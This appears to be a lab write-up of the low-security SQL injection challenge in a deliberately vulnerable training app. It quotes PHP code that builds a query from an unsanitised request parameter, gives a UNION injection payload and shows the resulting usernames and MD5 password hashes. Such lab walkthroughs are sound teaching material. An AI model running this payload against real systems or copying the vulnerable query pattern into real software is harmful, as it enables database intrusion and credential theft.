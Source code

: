# SQL Injection

Despite being a very well understood class of attack, SQL injection vulnerabilities are still alarmingly common.

## Low

The relevant chunk from the source code of the low security SQLi challenge:

```php
<?php    
$id = $_GET['id'];

$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result = mysql_query($getid) or die('<pre>' . mysql_error() . '</pre>' );
?>
```

With no sanitisation on the value, it's pretty clear that `$id` is our point of injection.

The first thing I want to do is get some information. We know for free that there's a table called `users` containing the columns `user_id`, `first_name` and `last_name`.

We can try to find out some other column names, but we can at least guess that there might be a `user` or `password` field. The original query selects values from two columns, so we can use a `UNION` statement in our injection to extract values from two additional columns.

```
1' UNION SELECT user, password FROM users;#
```

What luck! As hoped, the application spits out the following:

```
ID: 1' UNION SELECT user, password FROM users;#
First name: admin
Surname: admin

ID: 1' UNION SELECT user, password FROM users;#
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: 1' UNION SELECT user, password FROM users;#
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

ID: 1' UNION SELECT user, password FROM users;#
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: 1' UNION SELECT user, password FROM users;#
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: 1' UNION SELECT user, password FROM users;#
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

So now we have a set of usernames and password hashes.

```
admin:5f4dcc3b5aa765d61d8327deb882cf99
gordonb:e99a18c428cb38d5f260853678922e03
1337:8d3533d75ae2c3966d7e0d4fcc69216b
pablo:0d107d09f5bbe40cade3de5c71e9e9b7
smithy:5f4dcc3b5aa765d61d8327deb882cf99
```

